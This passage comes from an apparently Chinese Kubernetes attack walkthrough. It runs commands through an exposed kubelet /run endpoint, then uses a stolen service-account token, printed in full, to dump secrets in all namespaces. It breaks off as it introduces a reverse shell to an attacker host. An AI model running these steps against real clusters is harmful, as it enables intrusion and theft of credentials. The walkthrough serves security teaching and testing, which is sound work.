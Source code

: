 ```plain
curl -k -XPOST "https://192.168.17.144:10250/run/kube-system/kube-flannel-ds-xwk2t/kube-flannel" -d "cmd=netstat -ntlp"
```

[![](assets/1701826061-b950bcf34fc57e7f48431dd00b423cb5.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231025171112-71be1410-7316-1.png)  
如果提示 Error from server (Forbidden): secrets is forbidden: User“" cannot list resource "secrets" in API 则说明权限不够

```plain
kubectl --insecure-skip-tls-verify=true --server="https://192.168.17.144:6443" --token="eyJhbGciOiJSUzI1NiIsImtpZCI6Iml3OVRtaVlnREpPQ0h2ZlUwSDBleFlIc29qcXgtTmtaUFN4WDk4NjZkV1EifQ.eyJpc3MiOiJrdWJlcm5ldGVzL3NlcnZpY2VhY2NvdW50Iiwia3ViZXJuZXRlcy5pby9zZXJ2aWNlYWNjb3VudC9uYW1lc3BhY2UiOiJrdWJlLXN5c3RlbSIsImt1YmVybmV0ZXMuaW8vc2VydmljZWFjY291bnQvc2VjcmV0Lm5hbWUiOiJmbGFubmVsLXRva2VuLWhwbGJ0Iiwia3ViZXJuZXRlcy5pby9zZXJ2aWNlYWNjb3VudC9zZXJ2aWNlLWFjY291bnQubmFtZSI6ImZsYW5uZWwiLCJrdWJlcm5ldGVzLmlvL3NlcnZpY2VhY2NvdW50L3NlcnZpY2UtYWNjb3VudC51aWQiOiIwMmJmZmUzZi0wNGE5LTQ2MTItYjRjYy1mYjNkNTdiNjZiZDkiLCJzdWIiOiJzeXN0ZW06c2VydmljZWFjY291bnQ6a3ViZS1zeXN0ZW06Zmxhbm5lbCJ9.oGnRE55P1Dv9W4-Gs8UCp5M1_vdL2flZ0WYJtr8HTMgb2Si6wb-N_ltS1HRi_Q9VHsS_CsjHw3ZqA-jQvbz-RENNLDEL20nUt9J51IyqeGPC3sKAd3fVOZmViIVrYsQSewvPHwPq7qvFnIj1aR-pFYrB47iohej2XvS4aTNZMdpxhL0jCBa3o5SFZg1oNR1rzJd1hhSaCNAbQ7_JMdTuCy4aU0zykVd0GoUF9gXRD7Avx9Y25QGCBTdPgL11fzjcGiG93KtfE4QASiLemnxDF1TPeob9MERFbT6mq-CQ7243U6HjF6Lx-1NfLk52qaXp3hbpGySNudUz_i_Q-KWIgw" get secrets --all-namespaces -o jsonv
```

[![](assets/1701826061-4906b693618f5db8858d0efae120440f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231025171137-806ab950-7316-1.png)  
Step 6：获取 node 里 pod 的 shell  
攻击者可以本地搭建 web 服务，通过在 node 中的 pod 里执行反弹语句来获得 node 的 shell，假定这里的 192.168.17.161:80 是攻击者 web 服务，之后写入以下反弹 shell 指令，之后启动一个简易的 HTTP 服务：
